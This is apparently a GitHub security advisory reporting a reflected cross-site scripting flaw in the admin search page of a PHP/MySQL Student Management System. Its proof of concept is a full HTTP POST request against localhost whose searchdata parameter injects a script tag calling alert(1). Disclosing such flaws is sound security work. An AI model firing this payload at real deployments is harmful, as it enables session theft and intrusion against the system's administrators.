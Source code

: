 # Student Management System

A Student Management System developed using PHP and MySQL.

## Auditor

Shoaib Alam - [LinkedIn Profile](https://www.linkedin.com/in/shoaib-alam-b53843203/)

## Description

### Cross-Site Scripting (XSS) Vulnerability in Admin Panel

A Cross-Site Scripting (XSS) vulnerability has been identified in the Student Management System. Specifically, this issue is present in the admin panel's student search functionality.

The web application fails to adequately sanitize user input on the admin page, particularly within the `searchdata` parameter of the `/studentms/admin/search.php` endpoint. This lack of proper input sanitization allows for the injection and execution of arbitrary scripts within the victim's browser context when they interact with a specially crafted link. Such a vulnerability can lead to significant security risks, including unauthorized script execution and potential data exposure.

**Vulnerable Endpoint:** `/studentms/admin/search.php`  
**Vulnerable Parameter:** `searchdata`

## Proof of Concept (PoC)

The following HTTP request demonstrates the XSS vulnerability. This PoC illustrates how an attacker could exploit the vulnerability to execute arbitrary JavaScript in the victim's browser.

```http
POST /studentms/admin/search.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 64
Origin: http://localhost
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://localhost/studentms/admin/search.php
Cookie: PHPSESSID=kq90r1jv25kn4flrqd74v1miqd
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

searchdata=%22%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&search=
